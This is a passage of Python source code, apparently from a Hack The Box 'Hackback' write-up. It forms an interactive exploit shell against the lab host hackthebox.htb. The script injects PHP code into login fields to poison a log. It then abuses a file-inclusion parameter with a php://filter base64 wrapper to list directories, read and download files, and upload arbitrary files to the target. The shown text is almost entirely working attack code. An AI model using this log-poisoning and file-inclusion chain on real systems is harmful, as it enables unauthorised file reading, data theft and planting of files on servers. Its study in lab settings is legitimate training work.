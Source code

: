      20         self.webadmin_url += f'dir={{dir}}&file=php://filter/convert.base64-encode/resource={{file}}'
     21         self.post_url = 'http://www.hackthebox.htb'
     22         self.proxy = proxy or {}
     23         self.cookie = {'PHPSESSID': self.sess}
     24         self.clean_log()
     25 
     26     def clean_log(self):
     27         requests.get(self.webadmin_url.format(action='init', dir='', file=''),
     28                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     29         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
     30                      data={'username': "qqqqqq<?php echo print_r(scandir($_GET['dir'])); ?>zzzzzz",
     31                            'password': "xxxxxx<?php include($_GET['file']); ?>pppppp",
     32                            'submit': ""})
     33 
     34     def do_dir(self, args):
     35         '''Do a directory listening of the given path
     36         Spaces in file path allowed'''
     37         args = args or '.'
     38         resp = requests.get(self.webadmin_url.format(action='show', dir=args, file=''),
     39                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     40         print(re.search("qqqqqq(.*)zzzzzz", resp.text, re.DOTALL).group(1))
     41 
     42     def do_type(self, args):
     43         '''Print the contents of a file
     44         Spaces in file path allowed'''
     45         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=args),
     46                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     47         print(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)).decode())
     48 
     49     def do_save(self, args):
     50         '''Save the contents of a file to a file
     51         Spaces in file path allowed
     52         save [relative path on hackback] [path to save to]'''
     53         args = args.split(' ')
     54         out_file = args[-1]
     55         file_path = ' '.join(args[:-1]) or out_file
     56         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=file_path),
     57                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     58         with open(out_file, 'wb') as f:
     59              f.write(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)))
     60 
     61     def do_upload(self, args):
     62         '''Upload a local file to target
     63         Spaces allowed in target path, not local path
     64         upload [local file] [path on target]'''
     65         args = args.split(' ')
     66         to_upload = args[0]
     67         file_path = ' '.join(args[1:])
     68         with open(to_upload, 'rb') as f:
     69             b64 = b64encode(f.read()).decode()
     70         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
     71                      data={'username': f'<?php $f = "{b64}"; file_put_contents("{file_path}", base64_decode($f)); ?>',
     72                            'password': "xxxxxx",
     73                            'submit': ""})
     74         requests.get(self.webadmin_url.format(action='show', dir='', file=''),
     75                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     76         self.clean_log()
     77 
     78 
     79 term = Terminal(proxy={'http': 'http://127.0.0.1:8080'})
     80 try: